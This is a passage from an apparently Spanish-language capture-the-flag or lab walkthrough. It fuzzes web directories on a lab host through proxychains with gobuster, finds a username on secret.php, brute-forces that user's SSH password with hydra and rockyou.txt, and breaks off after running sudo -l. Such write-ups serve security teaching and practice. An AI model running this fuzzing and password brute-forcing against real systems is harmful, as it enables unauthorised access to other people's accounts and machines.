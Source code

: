![](attachment/4971e4dbcc88478e6be6564827b4f8b2.png)
_____
el comando de gobuster para aplicar fuzzing con proxychains es el siguiente.

```bash
gobuster dir --proxy socks5://127.0.0.1:1080 -u http://20.20.20.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --add-slash
```

si entramos a pagina web en secret.php veremos lo siguiente.
_____
![](attachment/9aec24d67d4ce8831f43df38010b3f62.png)
____
parece que tenemos un usuario llamado mario, por lo que aplicaremos fuerza bruta con hydra.

```shell
proxychains hydra -l mario -P /usr/share/wordlists/rockyou.txt 20.20.20.3 ssh
```

____
![](attachment/3d389c1dec74e4c1317ca02db2118bd4.png)
______
obtenemos una contraseña para mario, nos conectamos por ssh y aplicamos el comando sudo -l y nos aparece lo siguiente.
____